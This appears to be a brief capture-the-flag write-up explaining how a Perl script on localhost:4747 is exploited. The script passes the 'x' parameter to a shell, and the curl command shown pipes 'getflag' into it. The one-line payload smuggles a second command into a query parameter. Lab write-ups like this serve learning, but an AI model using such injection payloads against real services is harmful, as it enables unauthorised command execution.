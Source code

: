 We can cat a .pl progamm wich is script executed while curling localhost:4747
The param asked is "x", we just piped it zith getflag and we got our flag.
curl localhost:4747?x="|getflag"
